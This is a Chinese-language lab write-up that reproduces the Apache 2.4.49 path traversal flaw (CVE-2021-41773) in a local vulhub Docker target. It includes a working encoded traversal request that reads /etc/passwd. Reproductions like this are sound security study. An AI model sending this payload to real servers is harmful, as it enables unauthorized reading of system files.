

# Apache路径穿越漏洞（CVE-2021-41773）

## 漏洞原理

在 Apache HTTP Server 2.4.49 中对路径规范化所做的更改中发现了一个缺陷。攻击者可以使用路径遍历攻击将 URL 映射到预期文档根目录之外的文件。如果文档根目录之外的文件不受“要求全部拒绝”的保护，则这些请求可能会成功。此外，此缺陷可能会泄漏 CGI 脚本等解释文件的来源。已知此问题已被广泛利用。此问题仅影响 Apache 2.4.49 而不是早期版本。


## 影响版本

Apache HTTP Server 2.4.49

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段 

#### 进入靶场，启动服务

```
cd /home/radiuscircle/vulhub/httpd/CVE-2021-41773
docker-compose build
docker-compose up -d
```


#### 信息收集

查看端口

```
docker ps
```


### 漏洞利用

访问IP：`http://192.168.177.131:8080/`


burp抓包



构造payload

```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```


得到passwd文件内容

### 关闭容器

```
docker-compose down
```

